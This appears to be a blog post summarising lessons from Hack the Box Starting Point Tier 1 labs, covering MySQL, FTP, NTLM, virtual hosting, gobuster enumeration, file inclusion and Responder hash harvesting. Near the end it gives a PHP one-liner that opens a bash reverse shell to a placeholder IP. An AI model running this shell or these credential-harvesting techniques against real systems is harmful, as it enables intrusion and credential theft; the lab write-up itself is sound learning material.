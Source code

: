 ```yaml
---
title: 'HTB Starting Point - Tier 1'
description: 'Hack the Box Starting Point'
pubDate: 'Dec 5 2024'
heroImage: 'blog-placeholder-2.jpg'
---
```


Topics covered:  
* SQLi
* Server side template injection
* Remote file inclusion
* Web/reverse shells
* Navigating Jenkins
* S3

## Summary

In Tier 1, we covered even more topics. The following summary captures a bunch of the key ideas that I encountered.

### Tech Basics  
#### MySQL
* `mysql` is command line tool
* `root` is the super user
* All MySQL instances contain the databases: `information_schema`, `mysql` and `performance_schema`
* When connected to the server via the `mysql` tool, some useful commands: `USE <db>`, `SHOW TABLES;`, `SELECT * FROM <table>`


#### FTP
* Anonymous login allowed returns the code `340` 
* Anonymous login uses the username `anonymous`
* Some useful commands: `ftp <user>@<server>`, `ls`, `get <file>`


#### NTLM

This is described in more detail on the post: "[Harvesting NTLM Credentials]blog/htb-starting-point/harvesting-ntlm-creds)"
* A set of challenge-response protocols used in Microsoft systems. 
* An NTHash is the output of the NTLM protocol's hash algorithm. This NTHash is stored on the SAM DB on a local machine, or on a domain controller.
* NetNTLMv2 is a specific string format to represent a challenge and its response. Colloquially known as a hash even though it's not


#### Name-based virtual hosting
This is a technique to allow multiple domains to be hosted on the same machine whilst still allowing each domain to handle its own requests separately. The server looks at the HTTP header `Host` to determine which service on the machine should handle the request. This host header will specify the domain name and is what makes it different to IP-based virtual hosting (which I believe is just our regular ol' DNS entries). The Host header is mandatory in HTTP/1.1. Interestingly, this has caused some complications in SSL/TLS as the handshake is done prior to the hostname being known. There is a TLS extension called "Server Name Indication" that circumvents this issue by presenting the name at the start of the handshake. Thus name-based virtual hosting can be used in both HTTP and HTTPS scenarios.

While doing the pentests below, there were times that a web server was expecting a certain DNS entry that didn't exist in my computer. To fix this, it only requires a change to the `/etc/hosts` file. e.g.

```
# /etc/hosts
10.10.10.3  my.domain.com
```

Subdomain enumeration can be completed with `gobuster vhost --apend-domain -u <domain> -w ./Discovery/DNS/subdomains-top1million-5000.txt`


### Pentest Essentials
#### Reconnaissance and enumeration
When approaching a box: 
* `nmap` everything! 
* `gobuster` is useful for site, path and virtual host enumeration
    * `dns` for subdomain enumeration
    * `dir` discovers directories/files. `-x` allows you to specify a kind of file. e.g. `gobuster dir -x php -u $TARGET -w ./Discovery/Web-Content/common.txt`
    * `vhost` for virtual hosts and virtual host subdomains
* `wappalyzer` gives an analysis of a websites tech


#### Local File Inclusion/Remote File Inclusion

* LFI is where the server is tricked into serving a local file not intended for the website. This is achievable when the site doesn't properly sanitize filepath inputs. You could try using relative or absolute paths to find a file. In one of the boxes, we were able to obtain LFI via an improper use of PHPs `include()` function
* RFI is where a server tries to connect to some remote machine to retrieve a file. Windows, by default will try and resolve UNC paths using SMB. For RFI to work in PHP, PHP must have `allow_url_include` enabled

#### Responder

A useful tool to harvest NTLM hashes. It can poison resolution protocols to trick computers into thinking the attacker's machine is the correct server. In the responder challenge, we obtained the NTLM hash by exploiting the web server's trust in our authority as an SMB server. It willingly handed over the hash!

This is described in more detail on the post: "[Harvesting NTLM Credentials]blog/htb-starting-point/harvesting-ntlm-creds)"

#### Simple reverse shell

A simple reverse shell command in PHP

```php
<?php system("bash -i >& /dev/tcp/<IP>/1337 0>&1")?>
```

You can read more details in this blog post: "[Obtain a Reverse Shell With PHP and Bash](blog/htb-starting-point/reverse-shell-php-and-bash/)"
